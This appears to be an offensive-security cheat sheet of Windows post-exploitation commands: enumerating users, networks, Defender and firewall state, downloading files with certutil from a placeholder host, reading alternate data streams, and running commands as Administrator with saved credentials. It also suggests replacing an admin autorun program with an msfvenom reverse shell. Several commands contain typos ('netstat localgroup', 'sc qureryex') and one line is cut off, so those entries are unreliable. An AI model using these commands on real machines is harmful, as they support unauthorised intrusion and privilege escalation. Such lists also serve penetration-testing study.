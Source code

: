 ```powershell
#To list all users on the machine
net user
#To get info about s single user
net user <USER>
#To list all members of a group
netstat localgroup <GROUP>
```
## Network enumeration
```powershell
#To network stats  
ipconfig /all  
arp -a  
netstat -ano
```
## AV enumeration
```powershell
#To see the status of the windows defender  
sc query windefend  
#To list all the services running on the box  
sc qureryex type = service  
#To see the stat of the firewall   
netsh firewall show state  
netsh advfirewall dump   
#Config of firewall  
netsh firewall show config 
```
## Download files using CMD
```powershell
certutil -urlcache -f http://<site> <FILE> <location to save to on remote mahine>

#For Powershell you can use curl :)
```

## Windows linux subsystem
```powershell
#Searching for necessary executables
where /R C:\windows bash.exe  
where /R C:\windows wsl.exe
```

## Alternative data streams
```powershell
dir /R  
more < <data stream> #To see the content
```
## Run As
```powershell
cmdkey /list  
C:\Windows\System32\runas.exe user:ACCESS\Administator savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop
```
## Auto Run
```powershell
#Some programms are running automatically on boot so we want to see if a program is auto runnning as admin to replace thar programme with one customized   
#using msfvenom to get a reverse shell
wmic startup get caption,command 2>nul
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```